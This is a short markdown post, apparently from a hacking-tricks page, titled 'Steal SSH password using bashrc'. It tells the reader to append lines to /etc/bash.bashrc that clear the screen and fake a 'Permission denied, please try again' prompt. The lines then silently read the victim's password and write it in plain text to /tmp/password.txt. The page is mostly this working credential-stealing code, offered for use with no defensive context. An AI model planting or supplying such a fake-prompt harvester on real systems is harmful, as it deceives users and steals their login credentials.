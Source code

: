```yaml
---
layout: post
title:  "Steal SSH password using bashrc"
categories: ssh password
summary: Use bashrc to steal SSH password
---
```


{% include instructions.md %}

### {{page.title}}

Modify bash.bashrc so it looks like first password went wrong and you need to write it again, but actually it steals victim’s password and adds it to a file
```shell
# nano /etc/bash.bashrc
```

Add these line to end of the bash.bashrc file
```shell
clear
echo "$(whoami)@$(hostname -I)'s password:"
echo "Permission denied, please try again."
read -s -p "$(whoami)@$(hostname -I)'s password: "  password
echo "$password" >> /tmp/password.txt
echo   
```